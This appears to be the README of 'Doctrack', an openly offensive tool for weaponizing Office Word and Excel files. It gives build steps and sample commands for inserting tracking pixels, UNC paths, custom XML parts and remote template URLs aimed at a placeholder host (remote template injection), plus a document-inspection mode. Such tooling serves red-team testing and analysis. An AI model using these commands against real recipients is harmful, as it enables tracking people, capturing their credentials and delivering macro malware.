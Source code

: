 ﻿# Doctrack
Tool to manipulate and weaponize Office Open XML documents.
## Features
* Create Office Open XML documents (Word, Excel)
* Insert tracking pixels and UNC paths
* Remote Template injection
* Insert CustomXML parts
* Inspect external target URLs, metadata and Custom XML parts
## Installation
You will need to download [.Net 6.0](https://dotnet.microsoft.com/download/). Then, to build a single binary on Windows:
```cmd
$ git clone https://github.com/wavvs/doctrack.git
$ cd doctrack/
$ dotnet publish -r win-x64 -c Release /p:PublishSingleFile=true
```
On Linux:
```bash
$ dotnet publish -r linux-x64 -c Release /p:PublishSingleFile=true
```
## Usage
```cmd
$ doctrack --help
Tool to manipulate and weaponize Office Open XML documents.

  -i, --input          Input filename. If doesn't exist, new file is created.
  -o, --output         Output filename. If not set, document is saved as --input
                       file.
  -m, --metadata       Metadata to supply (JSON file).
  -u, --url            URL to insert.
  -e, --template       (Default: false) If set, enables template URL injection.
  -s, --inspect        (Default: false) Inspect document.
  -c, --custom-part    Insert a Custom XML part (XML file)
  --help               Display this help screen.
```
Create a Word document and change document metadata:
```cmd
$ doctrack -i test.docx -m metadata.json
```
Insert a tracking pixel and change document metadata:
```cmd
$ doctrack -i test.docx -o test.docx --metadata metadata.json --url http://test.url/image.png
```
Insert a remote template URL (aka Remote Template Injection):
```cmd
$ doctrack -i test.docx -o test.docx --url http://test.url/template.dotm --template
```
Insert a Custom XML part:
```
$ doctrack -i test.docx -o test.docx -c part.xml
```
Inspect external target URLs, metadata and Custom XML parts:
```cmd
$ doctrack -i test.docx --inspect
[External targets]
Part: /word/document.xml, ID: R8783bc77406d476d, URI: http://test.url/image.png
Part: /word/settings.xml, ID: R33c36bdf400b44f6, URI: http://test.url/template.dotm

[Metadata]
Creator: wavvs
Title: doctrack
Subject:
Category:
Keywords:
Description:
ContentType:
ContentStatus:
Version:
Revision:
Created: 13.10.2020 23:20:39
Modified: 13.10.2020 23:20:39
LastModifiedBy:
LastPrinted: 13.10.2020 23:20:39
Language:
Identifier:

[CustomXML Parts]
Part: /customXML/item.xml (25 bytes)
```